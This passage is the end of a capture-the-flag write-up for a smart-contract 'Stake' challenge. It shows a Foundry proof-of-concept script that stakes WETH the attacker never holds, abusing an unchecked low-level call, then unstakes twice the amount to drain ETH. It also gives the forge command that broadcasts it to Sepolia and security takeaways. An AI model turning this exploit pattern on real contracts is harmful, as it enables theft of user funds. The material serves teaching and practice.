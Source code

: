 ```javascript

        // 3. Approve the stake contract to use WETH
        weth.approve(address(stake), amount);

        // 4. Stake WETH (that we don't have!)
        stake.StakeWETH(amount);
        console2.log("Balance after StakeWETH: ", address(stake).balance);
        console2.log("TotalStaked after StakeWETH: ", stake.totalStaked());

        // 5. Unstake ETH + WETH (leave 1 wei in Stake contract)
        stake.Unstake(amount * 2);
        console2.log("Balance after hack: ", address(stake).balance);
        console2.log("TotalStaked after hack: ", stake.totalStaked());

        require(address(stake).balance > 0, "Stake balance == 0");
        require(
            stake.totalStaked() > address(stake).balance,
            "Balance > Total staked"
        );

        vm.stopBroadcast();
    }
}
```

The command to run the script:

```bash
forge script script/31_Stake.s.sol:PoC --rpc-url sepolia --broadcast --evm-version cancun --priority-gas-price 1
```

> Note: We have to specify the `--evm-version cancun` flag to use the latest version of the EVM for this level, as well as the `--priority-gas-price 1` flag, otherwise foundry complains.

## Takeaway

- Always validate properly the return values of low-level calls in case the call reverted.
- Try to systematically use `SafeERC20` when dealing with ERC20 tokens.

## Reference

- Check external calls return: https://entethalliance.github.io/eta-registry/security-levels-spec.html#req-1-check-return
- SafeERC20: https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
